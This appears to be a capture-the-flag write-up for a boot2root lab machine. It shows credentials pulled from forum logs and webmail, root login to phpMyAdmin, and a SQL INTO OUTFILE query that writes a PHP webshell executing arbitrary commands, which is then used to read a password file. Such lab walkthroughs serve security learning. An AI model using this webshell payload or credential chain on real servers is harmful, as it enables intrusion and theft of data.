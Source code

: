 ## HTTPS part

We go to **/forum** where we find a topic :

 <code>Login problem?</code>

We see that the topic is created by **lmezard**, and that the page is filled with logs created by an admin,
so we look for the name **lmezard** in the page, and we come across this :
<pre><code>Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)</code></pre>
> We can see that **lmezard** typed his mdp instead of his login: **!q\]Ej?*5K5cy*AJ**

Then you log in to the lmezard profile on the forum.

<code>Username : lmezard

Password : !q\]Ej?*5K5cy*AJ</code>

You can find on his profile, his email address :

<pre>laurie@borntosec.net
</pre>

We try to connect on https://IP/webmail with the same password and we discover 2 mails, the one that interests us is **DB ACCESS**, in which we find the login and the mdp for phpmyadmin

<code>root/Fg-'kKXBj87E:aJ$
</code>

You log in phpmyadmin as root. We have access to the database queries, which allows us to perform a **exploit** which consists in creating a **Webshell** thanks to the SQL query.

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/phpshell.php'
```

We go to https://IP/forum/templates_c/phpshell.php (where the **webshell** is created) and try to find files or data to exploit.
We start by listing all the files the user has access to :

<pre><code>> find / -user www-data -print 2>/dev/null
/home
/home/LOOKATME
/home/LOOKATME/password
...
</code></pre>

On **cat** le fichier :
<pre><code>> cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
</code></pre>
